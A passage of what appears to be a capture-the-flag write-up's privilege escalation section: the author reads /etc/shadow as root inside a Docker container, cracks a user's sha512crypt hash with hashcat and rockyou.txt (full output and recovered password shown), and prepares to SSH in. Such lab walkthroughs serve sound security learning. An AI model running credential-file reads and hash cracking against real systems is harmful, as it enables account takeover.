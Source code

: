 ## **Privilege Escalation**

### Escaping docker

Since we are root we can read the `/etc/shadow` file.

```text
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```

We got the hash of user `machael`, let's crack it.

```terminal
hashcat hashes.txt rockyou.txt -m 1800
hashcat (v6.2.6) starting




Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa....L2IJD/
Time.Started.....: Mon Dec 16 10:43:14 2024 (29 secs)
Time.Estimated...: Mon Dec 16 10:43:43 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     2285 H/s (10.91ms) @ Accel:128 Loops:4 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 65536/14344384 (0.46%)
Rejected.........: 0/65536 (0.00%)
Restore.Point....: 32768/14344384 (0.23%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4996-5000
Candidate.Engine.: Device Generator
Candidates.#1....: dumbo -> ryanscott

Started: Mon Dec 16 10:43:06 2024
Stopped: Mon Dec 16 10:43:45 2024
```

We got the password `insaneclownposse`. Let's try ssh to the box.
